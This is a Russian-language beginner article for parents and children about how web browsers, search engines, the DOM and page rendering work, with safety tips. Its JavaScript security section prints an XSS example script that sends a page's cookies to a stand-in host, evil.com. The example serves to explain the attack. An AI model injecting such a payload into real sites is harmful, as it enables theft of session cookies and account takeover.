



# Браузер

<div class="article-tags">
  <span class="tag tag-required">ОБЯЗАТЕЛЬНО</span>
  <span class="tag tag-beginner">ДЛЯ НОВИЧКОВ</span>
</div>

<span class="complexity-badge">Родителям и детям</span>

## Браузер

Когда ты включаешь компьютер или планшет и хочешь посмотреть видео, почитать про динозавров или поиграть в онлайн-игру — ты почти всегда запускаешь **браузер**. Это может быть Chrome, Firefox, Safari, Edge или даже Яндекс.Браузер. Но почему именно *браузер*? Почему нельзя «просто включить интернет», как включаешь свет?

Представь, что интернет — это огромная библиотека. Даже *целый город библиотек*: в одной хранятся книги, в другой — аудиозаписи, в третьей — фильмы, в четвёртой — интерактивные карты сокровищ. Но у этой библиотеки нет единого входа, нет одного окошка выдачи, и книги в ней написаны на десятках языков — HTML, CSS, JavaScript, JSON и других.

**Браузер — это и есть твой читательский билет, библиотекарь и переводчик в одном лице.**  
Он знает, где искать нужную «книгу», как её правильно прочитать, и умеет превратить строчки кода в картинки, кнопки, видео и игры — так, чтобы ты всё это увидел и мог с этим взаимодействовать.

Без браузера интернет остаётся «невидимым»: как электричество в проводах — оно есть, но без лампочки ты его не увидишь. Браузер — это и есть эта лампочка. Он *включает* интернет *для тебя*.

---

#### Что такое браузер? (Формально и по-человечески)

**Браузер** — это программа, которая получает, интерпретирует и отображает веб-страницы и другие ресурсы из интернета.  
Слово *browser* в английском языке означает «листатель» или «просматриватель» — от глагола *to browse*, то есть «просматривать, листать, изучать не спеша».  

Технически браузер состоит из нескольких ключевых частей (мы вернёмся к ним чуть позже), но главная его задача — **запросить данные с сервера и показать их тебе в удобной форме**.

Простая аналогия:  
> Ты заходишь в киоск с газетами. Там висит список: «Комсомольская правда», «National Geographic», «Мурзилка». Ты говоришь продавцу: *«Дай, пожалуйста, “Мурзилку” за март»*.  
> Продавец идёт в подсобку (это — сервер), находит нужный номер, приносит его тебе. Ты берёшь журнал, открываешь — и читаешь.  
>  
> В этом примере:  
> - ты — пользователь,  
> - киоск — интернет,  
> - продавец — браузер,  
> - подсобка — сервер,  
> - журнал — веб-страница.

Браузер *не создаёт* контент. Он не пишет статьи, не снимает видео и не хранит сайты у себя. Он *доставляет* и *показывает* то, что уже есть в сети.

---

#### Как работает браузер? (На уровне «чёрного ящика»)

Рассмотрим самый простой сценарий: ты вводишь в адресную строку `https://example.com` и нажимаешь Enter.

1. **Запрос имени**  
   Браузер сначала спрашивает у **DNS-сервера** (это как справочная телефонная книга интернета):  
   *«Где живёт example.com? Какой у него IP-адрес?»*  
   DNS отвечает: *«192.0.2.1»* — это числовой «домашний адрес» сайта.

2. **Установка соединения**  
   Браузер стучится в дверь сервера `192.0.2.1` по протоколу HTTPS (защищённая версия HTTP). Это как постучать в дверь и сказать: *«Здравствуйте, я хочу прочитать вашу главную страницу. Можно?»*  
   Сервер отвечает: *«Да, заходите»* — и соединение устанавливается.

3. **Получение данных**  
   Сервер присылает браузеру файлы: HTML (структура), CSS (оформление), JavaScript (поведение), картинки, шрифты — всё, что нужно для страницы. Это может быть один файл или сотни.

4. **Рендеринг (отрисовка)**  
   Браузер «собирает пазл»:  
   - сначала строит **DOM-дерево** (Document Object Model) — структуру страницы: заголовки, абзацы, кнопки;  
   - затем применяет **CSS-правила**, чтобы раскрасить и расположить элементы;  
   - потом запускает **JavaScript**, если он есть — например, чтобы кнопка заработала или чтобы запустилось видео;  
   - наконец, показывает готовую картинку на экране.

Этот процесс занимает доли секунды — но внутри происходит *очень много* согласований между программами, серверами и протоколами.

> 💡 **Интересный факт**: если открыть в браузере *Инструменты разработчика* (F12 → вкладка *Сеть*), можно *увидеть*, как браузер договаривается с сервером: сколько файлов загрузил, сколько времени занял каждый шаг, где были задержки. Это как смотреть через прозрачную стену в кухню ресторана — видно, как повара готовят блюдо.

---

#### Устройство браузера: знакомимся с «кабиной пилота»

Браузер — не просто «окошко с сайтом». Это сложный инструмент с продуманным интерфейсом. Давай разберём его части — как в самолёте: каждая кнопка и индикатор здесь для чего-то.

##### 1. Адресная строка — главный руль

Это поле вверху окна, где ты пишешь адрес сайта. Её правильное название — ** Omnibox** (в Chrome и Edge) или просто **адресная строка**.  

Важно понимать:  
- Ты можешь вводить адреса (`https://site.ru`), и **поисковые запросы** (`как нарисовать кота`). Браузер сам поймёт: если это не адрес — отправит запрос в поисковик (Google, Яндекс и т.д.).  
- Адрес состоит из частей:  
  `https://` — протокол (как язык общения),  
  `www.example.com` — доменное имя («имя» сайта),  
  `/page.html` — путь к конкретной странице.  
  Иногда ещё есть `?query=123` — параметры (например, номер видео на YouTube).

> ✅ *Совет*: никогда не вводи логины и пароли в адресную строку — они могут сохраниться в истории или подсказках.

##### 2. Вкладки — как отдельные столы в библиотеке

Каждая вкладка — это *независимый сеанс работы*. У неё свой адрес, своя история, своё состояние. Если в одной вкладке играет видео, а в другой открыта электронная почта — они не мешают друг другу.

Почему это важно?  
- Если сайт «завис» — можно закрыть только одну вкладку, а не весь браузер.  
- Можно организовать работу: «вкладка с уроками», «вкладка с играми», «вкладка с чатом».  
- Некоторые браузеры позволяют *группировать* вкладки — например, все про космос собрать в одну папку.

##### 3. История — дневник твоих путешествий

Браузер помнит, куда ты заходил. Это удобно: случайно закрыл страницу — можно вернуться через историю (`Ctrl+H`).  
Но: история хранится *локально*, на твоём устройстве. Если ты зайдёшь с другого компьютера — её не будет (если только не включена синхронизация учётной записи).

##### 4. Закладки — «любимые полки»

Если сайт важный и ты заходишь туда часто (например, школа или онлайн-библиотека), его можно добавить в **закладки**.  
Это как поставить книгу на свою полку в библиотеке — не нужно каждый раз искать её по каталогу.

##### 5. Режим инкогнито — «временная карта читателя»

Когда ты открываешь вкладку инкогнито (обычно значок шляпы и очков 🕶️), браузер *не сохраняет*:  
- историю посещений,  
- закачки (сами файлы останутся, но запись о них — нет),  
- куки (небольшие файлы, которые сайты кладут на твой компьютер для запоминания настроек),  
- данные форм (имена, пароли — если не сохранял вручную).

👉 Это **не делает тебя невидимым** в интернете!  
- Провайдер, сайт и администратор сети (например, в школе) всё равно видят, куда ты ходил.  
- Режим инкогнито защищает *только от других пользователей этого же устройства*.  
Представь: ты берёшь чужую библиотечную карту на один день, читаешь, а потом карта стирается. Но библиотекарь всё равно знает, кто вошёл в здание.

##### 6. Расширения — «насадки для суперсил»

Это небольшие программы, которые добавляют браузеру новые возможности:  
- блокировщик рекламы,  
- переводчик,  
- менеджер паролей,  
- инструменты для учёбы (например, выделение текста и сохранение цитат).  

⚠️ **Важно**: расширения имеют доступ ко *всем сайтам*, которые ты открываешь. Ненадёжное расширение может украсть пароли. Устанавливай **только из официального магазина** (Chrome Web Store, Mozilla Add-ons) и читай отзывы.

---

#### Mermaid-схема: как браузер получает страницу

Вот упрощённая диаграмма последовательности:



📌 Эта схема показывает, что даже простое открытие сайта — это *диалог* между несколькими системами. Ни одна из них не работает в одиночку.

---

### Поисковые системы, адреса и правила хорошего тона в интернете

#### Поисковая система ≠ браузер. А в чём разница?

Многие дети (и даже взрослые!) путают эти понятия. Скажем прямо:

> 🔹 **Браузер** — это *инструмент*, который показывает тебе сайты.  
> 🔹 **Поисковая система** — это *сайт*, который помогает найти другие сайты.

Примеры:  
- Браузеры: Google Chrome, Mozilla Firefox, Microsoft Edge, Safari, Яндекс.Браузер.  
- Поисковые системы: Google, Яндекс, Bing, DuckDuckGo, Qwant.

Обрати внимание:  
- Ты можешь пользоваться **Google в Firefox** — и это нормально.  
- Ты можешь поставить **Яндекс как главный поиск в Chrome** — это настраивается.  
- А ещё есть браузер **Яндекс.Браузер**, который *по умолчанию* использует **Яндекс** как поисковик — но его можно поменять.

👉 Это как разница между **телевизором** и **телеканалом**:  
Телевизор (браузер) — устройство для показа.  
Каналы (поисковики, сайты) — контент, который через него идёт.

---

#### Как работает поиск? От запроса к результатам

Представь, что поисковая система — это *архивариус-супергерой*, который уже годами читает *все* сайты в интернете и делает краткие тезисы. Его работа называется **индексация**.

Вот как это происходит по шагам:

1. **Паук (crawler / spider)**  
   Это программа, которая *ползает* по интернету: заходит на один сайт, читает его, переходит по всем ссылкам на другие страницы — и так далее, миллионы раз в день. Она не «думает», она просто собирает: текст, заголовки, метки, даты.

2. **Индекс**  
   Всё, что собрал паук, попадает в гигантскую базу данных — **поисковый индекс**. Это как каталог библиотеки, но по *словам* и *темам*.  
   Например: слово *динозавр* встречается на странице `site.ru/paleo`, и там же есть *тираннозавр*, *мезозой*, *ископаемые* → система запоминает: *эта страница — про динозавров*.

3. **Запрос**  
   Ты набираешь в адресной строке: `как выглядит трицератопс`.  
   Браузер отправляет этот запрос поисковику (например, Google).  
   Поисковик ищет в своём индексе страницы, где есть эти слова — и ранжирует их по *релевантности*:  
   - Насколько точно текст отвечает на вопрос?  
   - Насколько авторитетен сайт? (Часто ссылаются — значит, доверяют)  
   - Насколько удобна страница? (Быстро грузится? Читаемый шрифт?)  
   - Есть ли картинки? Видео?  

4. **Выдача (SERP)**  
   Ты видишь список — обычно 10 результатов на странице. Самые релевантные — наверху.  
   Часто сверху ещё бывают:  
   - **Карточка знаний** (fact box) — кратко о трицератопсе, со схемой.  
   - **Похожие запросы** — «трицератопс размеры», «трицератопс против тираннозавра».  
   - **Реклама** — помечена подписью *«Реклама»*. Это платные объявления.

🔍 Попробуй провести эксперимент:  
- Вбей в Google `трицератопс` → посмотри на карточку знаний. Где, по ссылке внизу, взята информация? (Часто — из Википедии или научных баз.)  
- Сравни выдачу в Яндексе и DuckDuckGo. Чем они отличаются? Какой выглядит «нейтральнее»?

> 💡 **Важно**: поисковые системы *не знают всего*. Они знают только то, что успели проиндексировать. Если сайт новый, закрытый (требует логина) или запретил индексацию — его не будет в выдаче.

---

#### Адресная строка: многофункциональный инструмент

Раньше (лет 15 назад) в браузерах были *отдельно*:
- строка поиска (куда писали «как сварить пельмени»),  
- и строка адреса (куда вводили `https://povar.ru`).

Сейчас почти везде — **единая строка**, и это очень удобно, но требует понимания:

| Что ты ввёл | Что сделает браузер |
|-------------|---------------------|
| `https://google.com` | Перейдёт *прямо* на сайт Google — без поиска. |
| `google.com` | Добавит `https://` автоматически и перейдёт туда. |
| `как завязать галстук` | Не найдёт домена — отправит запрос в *поисковик по умолчанию*. |
| `wiki:галстук` | (В некоторых браузерах) сразу откроет статью в Википедии — это **поисковый ярлык**. |

👉 **Совет**: если хочешь *гарантированно* попасть на сайт — вводи полный адрес с `https://`. Так ты не попадёшь на фишинговую копию (об этом позже).

---

#### Правила работы с браузером: «цифровая гигиена»

Работа с браузером — как с кухней: можно приготовить шедевр, а можно отравиться. Есть базовые правила, которые делают использование интернета безопасным, быстрым и приятным.

##### 1. Не доверяй первому, что увидел

> «В интернете всё правда, особенно то, что написано крупным шрифтом» — шутка, но в ней доля истины.

Научись задавать вопросы:  
- Кто автор? Это учёный, журналист, школьник, бот?  
- Когда опубликовано? (Статья 2005 года про «новейшие смартфоны» — уже не актуальна.)  
- Есть ли ссылки на источники?  
- Выглядит ли сайт профессионально? (Перекошенные картинки, грамматические ошибки, всплывающая реклама — тревожные звоночки.)

##### 2. Пароли: хранилки vs бумажка

Браузер может *запоминать пароли*. Это удобно, но:
- Если устройство общее — любой, кто сядет за него, получит доступ к твоим аккаунтам.  
- Некоторые браузеры хранят пароли *локально* (только на этом компьютере), другие — в облаке (требуется вход в аккаунт Google/Microsoft).

✅ **Рекомендация**:  
- Для важных аккаунтов (почта, школа) используй **менеджер паролей** (например, Bitwarden — бесплатный и открытый).  
- Никогда не используй один и тот же пароль на разных сайтах.  
- Включи двухфакторную аутентификацию (2FA), где возможно — например, через приложение Google Authenticator.

##### 3. Куки и кэш: зачем и чем опасны

- **Кэш** — временная «копия» частей сайта (картинки, стили), чтобы при следующем заходе страница открывалась быстрее.  
- **Куки (cookies)** — маленькие файлы, которые сайт оставляет у тебя, чтобы «запомнить»:  
  - ты уже вошёл в аккаунт,  
  - выбрал язык «русский»,  
  - положил товар в корзину.

⚠️ Проблема:  
- *Трекинговые куки* (от рекламных сетей) следят, какие сайты ты посещаешь, чтобы показывать «персонализированную рекламу».  
- Некоторые куки живут месяцы и даже годы.

🔧 Что можно делать:  
- Раз в месяц очищай кэш и куки (в настройках → «Конфиденциальность»).  
- Включи режим «Блокировать сторонние куки» (есть в Chrome, Firefox, Safari).  
- Используй расширения вроде **uBlock Origin** — они блокируют трекеры.

##### 4. Загрузки: не всё, что блестит — безопасно

Когда ты скачиваешь файл (`.exe`, `.zip`, `.apk`), браузер предупреждает: *«Этот файл может навредить устройству»*.  
Не игнорируй это!  

✅ Проверь перед запуском:  
- Откуда файл? (С официального сайта — хорошо; с форума — подозрительно.)  
- Есть ли цифровая подпись? (Для `.exe` в Windows: клик правой кнопкой → «Свойства» → вкладка «Цифровые подписи».)  
- Проверь через сервис VirusTotal (загружаешь файл — он проверяет его 70+ антивирусами).

---

#### Как браузер помнит тебя: сессии и синхронизация

Если ты входишь в аккаунт Google в Chrome или в аккаунт Microsoft в Edge — браузер может *синхронизировать* данные между устройствами:

| Синхронизируется | Пример |
|------------------|--------|
| Закладки | Добавил в школе — появилось дома |
| История | Продолжаешь чтение с того места, где остановился |
| Пароли | (Только если разрешил явно) |
| Вкладки | «Открыть на другом устройстве» |

🔒 Важно:  
- Синхронизация использует **шифрование**.  
- Но если кто-то получит доступ к твоему аккаунту — получит и доступ к этим данным.  
- Никогда не входи в учётную запись на общих компьютерах (библиотека, школа) — и *всегда* нажимай «Выйти».

---

#### Путь поискового запроса



Эта схема показывает: даже «простой поиск» — это *две независимые цепочки*:  
1. Диалог с поисковиком.  
2. Затем — полноценная загрузка выбранного сайта.

---

### Как браузер «лепит» страницу

#### Веб-страница

Когда ты заходишь на сайт, например `https://elma365.ru` или `https://scratch.mit.edu`, у тебя создаётся впечатление, что перед тобой — готовая «фотография» с кнопками и текстом. Но это иллюзия.

На самом деле:  
> 🔹 **Веб-страница — это текстовый файл с инструкциями.**  
> 🔹 Браузер — это *мастер-сборщик*, который по этим инструкциям строит то, что ты видишь.

Представь конструктор LEGO:  
- Ты получаешь коробку (`index.html`) и листок с инструкцией.  
- В инструкции написано: *«Поставь красный кирпич 2×4 сюда. Прикрепи к нему синюю плитку 1×2. Сверху — жёлтое окошко»*.  
- Ты не видишь готовый замок — ты его *собираешь*, следуя описанию.

Точно так же браузер «собирает» страницу из трёх основных компонентов:

| Компонент | Назначение | Аналогия |
|-----------|------------|----------|
| **HTML** (HyperText Markup Language) | Определяет *структуру*: где заголовок, где абзац, где кнопка, где картинка. | Каркас дома: стены, двери, окна — что и где находится. |
| **CSS** (Cascading Style Sheets) | Определяет *внешний вид*: цвета, шрифты, отступы, анимации. | Отделка: обои, краска, освещение, мебель. |
| **JavaScript** (JS) | Определяет *поведение*: что происходит при клике, как обновляется время, как играет видео. | Электрика и автоматика: двери, которые открываются сами, свет, реагирующий на движение. |

Важно: эти три слоя *независимы*. Можно отключить JS — страница останется, но перестанет «оживать». Можно отключить CSS — текст останется, но станет чёрно-белым и «сырым». Но без HTML — ничего не будет: это фундамент.

---

#### DOM — дерево страницы (и почему оно называется «деревом»)

Когда браузер получает HTML-файл, он не просто читает его как книгу. Он *строит модель* — **DOM (Document Object Model)**.

DOM — это иерархическая структура, похожая на генеалогическое дерево или схему организации:

- У страницы один «корень» — `<html>`.  
- У `<html>` два «ребёнка»: `<head>` (служебная информация) и `<body>` (то, что видит пользователь).  
- У `<body>` могут быть: `<header>`, `<main>`, `<footer>`.  
- В `<main>` — `<h1>` (заголовок), `<p>` (абзац), `` (картинка), `<button>` (кнопка)…  
- Каждый элемент может иметь *своих* детей: например, `<ul>` (список) содержит `<li>` (пункты).

Пример:

```html
<html>
  <body>
    <header>
      <h1>Моя веб-страница</h1>
    </header>
    <main>
      <p>Привет, мир!</p>
      <button>Нажми меня</button>
    </main>
  </body>
</html>
```

В виде дерева это выглядит так:



💡 Почему это важно?  
Потому что **всё, что происходит на странице, — это изменение этого дерева**.  
- Ты нажимаешь кнопку → JavaScript *изменяет* DOM: например, добавляет новый `<p>` с надписью «Спасибо!».  
- Ты вводишь текст в форму → DOM-элемент `<input>` *обновляет* своё свойство `value`.  
- Ты прокручиваешь страницу → браузер просто двигает «окно просмотра» над уже построенным деревом.

---

#### Как браузер рисует страницу: краткий жизненный цикл

Процесс открытия страницы можно разбить на четыре фазы:

1. **Парсинг HTML → построение DOM**  
   Браузер читает HTML построчно. Как только встречает ``, он сразу создаёт узел в DOM, а загрузку отправляет в фон.

2. **Загрузка CSS → построение CSSOM**  
   CSS тоже анализируется и превращается в **CSSOM (CSS Object Model)** — дерево стилей. Оно *сливается* с DOM → получается **Render Tree** (дерево отрисовки), содержащее только те элементы, которые *видимы* (например, `display: none` — не входят).

3. **Layout (макет)**  
   Браузер считает:  
   - Какой ширины и высоты каждый элемент?  
   - Где он расположен относительно других?  
   Это сложная задача — особенно если есть `flex`, `grid`, плавающие блоки.

4. **Paint (прорисовка) + Composite (сборка)**  
   На этом этапе браузер:  
   - Рисует пиксели (текст, границы, фон),  
   - Накладывает слои (например, видео поверх текста),  
   - Показывает результат на экране.

Если потом запускается JavaScript и, скажем, меняет цвет кнопки — браузер *не перестраивает всё с нуля*. Он делает **частичное обновление**: только перерисовывает затронутые элементы. Это называется **рефлоу** (изменение геометрии) и **репейнт** (изменение внешнего вида).

> 🖥️ **Эксперимент для любопытных**:  
> - Открой любой сайт.  
> - Нажми `F12` → вкладка **Elements**.  
> - Кликни правой кнопкой на любом элементе → **Break on → subtree modifications**.  
> - Теперь, например, введи текст в поисковую строку Google.  
> — DevTools *остановит* страницу в момент, когда DOM меняется! Ты увидишь, как появляются подсказки — как новые `<li>` в списке.

---

#### Мини-проект: измени сайт… не имея прав на него

Да, это возможно — и это абсолютно легально, если ты не сохраняешь изменения и не используешь их в коммерческих целях. Это как примерить одежду в примерочной: ты можешь всё менять, но уйти с магазина — и всё вернётся в исходное состояние.

**Задача: сделать главную страницу Wikipedia веселее**

1. Зайди на `https://ru.wikipedia.org`.  
2. Нажми `F12` → вкладка **Elements**.  
3. Найди в дереве элемент с текстом *«Википедия»* (обычно это `<h1>` или `<div>` с `id="p-logo"`).  
4. Кликни по нему правой кнопкой → **Edit as HTML**.  
5. Измени текст: например, на `<span>Вики-ПЕПСИ</span>`. Нажми Enter.  
   → Заголовок изменился! (Но только у тебя, и только до перезагрузки.)  
6. Теперь кликни по элементу → в правой панели найди вкладку **Styles**.  
7. Найди свойство `color` или добавь новое:  
   ```css
   color: magenta !important;
   font-family: 'Comic Sans MS';
   text-shadow: 2px 2px 4px rgba(0,0,0,0.5);
   ```  
   → Текст стал розовым, «весёлым» и с тенью.

✅ Что ты только что сделал?  
- Ты *редактировал DOM и CSSOM в реальном времени*.  
- Ты увидел, как изменения мгновенно отражаются на экране.  
- Ты понял: сайт — это *динамическая конструкция*, которую можно изучать и менять.

⚠️ Напоминание: это *локальное* изменение. Никакие серверы не пострадали. Ты — исследователь, а не хакер.

---

#### Безопасность «изнутри»: почему JS — это и сила, и риск

JavaScript — единственный из трёх слоёв, который может:  
- Читать и менять DOM,  
- Делать запросы на другие серверы,  
- Доступ к геолокации, микрофону, камере (с разрешения!),  
- Хранить данные в `localStorage` (даже после закрытия вкладки).

Это делает JS невероятно мощным. Но и опасным.

Пример угрозы — **межсайтовый скриптинг (XSS)**:  
> Представь форум, где можно писать комментарии. Злой пользователь пишет:  
> ```html
> <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
> ```  
> Если форум *не проверяет* ввод — этот код выполнится у всех, кто откроет страницу.  
> `document.cookie` — это куки текущего сайта. Они уйдут на `evil.com`.  
> Если среди куки есть сессионный идентификатор — злоумышленник сможет *войти в аккаунт от твоего имени*.

Как браузеры защищаются?  
- **Песочница (sandbox)**: JS на одном сайте *не может* читать DOM другого сайта (политика same-origin).  
- **CSP (Content Безопасность Policy)**: сайт может запретить выполнение «чужих» скриптов.  
- **Защита от отслеживания**: блокировка `fingerprinting` (сбора данных об устройстве для идентификации).

Ты можешь помочь себе:  
- Не нажимай на подозрительные ссылки в чатах.  
- Используй браузеры с хорошей защитой (Firefox, Brave).  
- Установи **NoScript** (для опытных) или **uMatrix** — они дают *ручное* управление, какие скрипты запускать.

---